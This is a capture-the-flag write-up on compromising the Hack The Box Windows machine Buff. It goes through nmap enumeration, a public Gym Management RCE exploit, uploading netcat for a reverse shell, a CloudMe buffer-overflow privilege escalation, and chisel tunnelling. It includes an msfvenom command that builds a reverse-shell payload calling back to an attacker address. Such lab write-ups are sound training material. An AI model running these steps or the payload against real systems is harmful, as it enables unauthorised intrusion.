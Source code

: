 ```yaml
---
description: >-
  Dec1pher's writeup on the easy-difficulty Windows machine Buff from
  https://hackthebox.eu
---
```


# HTB-Buff

* OS: Windows
* IP: 10.10.10.198

![](../../.gitbook/assets/buff.PNG)

## Overview

Buff is an easy windows machine that runs a gym management web interface that's outdated and has a known exploit to get RCE on the box. From here we are using winPEAS to locate `CloudMe.exe` which is vulnerable to buffer overflow. Using some port forwarding and the found python exploit we get administration rights on the box.

## Useful Tools

1. chisel  [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Enumeration

### Nmap

As always the first thing is enumerating the box with nmap. The most efficient flags that I found that work relatively fast and at the same time don't skip important information are `-Pn` to skip the ping test, `-sS` for TCP SYN scan, `-sC` for testing default scripts, `-sV` for version enumeration of the host, `-T4` to be fast and `-p-` to do an all ports scan. Also to not waste time I like to use the `--max-retries 0` to stop nmap from testing the same port multiple times.

```bash
dec1pher@kali:~$ sudo nmap -Pn -sS -sC -sV -T4 -p- 10.10.10.198 --max-retries 0
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org/ ) at 2020-11-12 17:07 EET
Nmap scan report for 10.10.10.198
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE VERSION
8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6 Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 close
|_http-title: mrb3n's Bro Hut
Device type: general purpose Running (JUST GUESSING): Microsoft Windows XP 7 (87%)
OS CPE: cpe:/o:microsoft:windows xp :: sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows XP SP2 (86%), Microsof 85%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/sub
```

There is only one port open according to the initial scan and it's an Apache web server on port 8080. Nmap didn't gave us an OS version but it could detect that the host runs windows.

### Site discovery \(HTTP 8080\)

The website is a gym management app and going though the pages we can see in the `contact.php` page the version and the name of the software that's used.

![](../../.gitbook/assets/buff-site.png)

That version of the app has a know vulnerability that gives RCE to the attacker and we can find the exploit python script in ExploitDB [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506).

## Exploiting Gym management to get RCE

By running the exploit providing the box ip we get RCE on the box. The shell that the script opened is not responsive \(we can't change directories\) but we can run commands on the box. So we spin up a python server on our box and we upload `nc.exe` on the machine using `powershe Invoke-WebRequest` since we have access to powershell. Since `nc.exe` gets uploaded we can call it from the webshell we got from the python script and get a responsive reverse shell on the box \(since the nc.exe doesn't get deleted or blocked we can assume that the box doesn't have an antivirus or some kind of malware detection\).

 1. Uploading `nc.exe` 

![](../../.gitbook/assets/buff-nc.png)

 2. Executing `nc` and getting a responsive reverse shell

![](../../.gitbook/assets/buff-rce.png)

\* We can get user.txt under `C:\Users\Shaun\Desktop\user.txt`

## Privilege escalation

After some manual enumeration on the use we can see an app that stick out `CloudMe.exe`. After searching for that app we can find that the version of that app is vulnerable to buffer overflow and we can find a python script in exploitdb that exploits the vulnerability.

> buffer overflow script found here =&gt; [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389)

### Creating the payload and setting up Chisel

Since python is not installed in the victim box we can use port forwarding to execute the script locally and send the payload to the victim using chisel. First we have to create a payload that opens a reverse TCP connection back to us. To do that we can use msfvenom and then use that created payload in the python script that we found.

 1. To create the payload `sudo msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.103 LPORT=1337 -f py -v payload`

Our next move is to upload `chisel.exe` on the victim using `powershell IWR` and run it in client mode , open chisel locally in server mode on the same ports to get a connection from our machine to the victim machine and finally forward the payload to the port that the app is running.

 2. Locally open chisel in server mode

![](../../.gitbook/assets/buff-client-chisel.png)

 3. Remotely execute chisel in client mode

![](../../.gitbook/assets/buff-serverchisel.png)

So we have created the tunnel to forward the payload to the app so now we can execute the python script that sends the payload open a netcat listener and get administration access on the box.

![](../../.gitbook/assets/buff-root.png)

At these point we have administration access on the box and we can get `root.txt` under `c:\Users\Administrator\Desktop\root.txt`

